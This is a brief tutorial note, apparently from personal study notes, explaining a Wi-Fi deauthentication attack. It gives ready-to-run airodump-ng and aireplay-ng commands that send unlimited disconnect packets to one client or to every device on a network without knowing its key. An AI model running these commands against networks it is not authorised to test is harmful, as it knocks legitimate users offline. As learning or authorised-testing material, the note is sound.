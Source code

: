 ```yaml
---
title: De-Authentication Attack
date: 2024-01-28 14:15:56 -0600
updated: 2024-01-28 14:15:56 -0600
---
```


The attack is performed by changing our MAC to Target MAC and sending Disconnect Request to the Router  
Then acting as the Router and send disconnect packet to Target  
This attack can be performed on all networks. No need to know the connection key. No need to connect to the network as well

````bash
# Sniff the Network to attack
airodump-ng --bssid <router-bssid> --channel <channel> <interface> 
aireplay-ng --deauth 0 -a <router-bssid> -c <target-bssid> <interface>
````

By using `0` as value for `--deauth` we are saying send infinite deauth packets to target. We can use a number to limit the amount of packets sent.  
If we do not use `-c` flag in deauth attack then all devices on the network will be disconnected
